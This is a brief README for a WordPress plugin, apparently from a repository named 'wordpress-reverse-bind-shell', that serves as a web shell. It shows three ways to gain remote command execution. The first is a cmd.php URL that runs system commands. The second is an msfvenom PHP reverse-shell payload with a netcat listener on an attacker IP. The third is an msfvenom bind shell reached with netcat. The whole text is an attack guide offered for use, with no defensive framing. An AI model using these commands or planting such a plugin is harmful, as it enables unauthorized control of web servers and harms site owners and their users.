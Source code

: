 # wordpress-reverse-bind-shell

Update the current php files, and then create a zip file with whole folder. Install as plugin in wordpress, and have fun...

## 1st option
http://server.fun/wordpress/wp-content/plugins/wordpress-reverse-bind-shell/cmd.php?cmd=whoami

## 2nd option
msfvenom -p php/reverse_php -f raw  LHOST=172.16.1.1 LPORT=4444 -o reverse.php

nc -lvnp 4444

## 3rd option
msfvenom -p php/bind_php -f raw LPORT=4444 -o bind.php

nc server.fun 4444



## ToDo
More details...
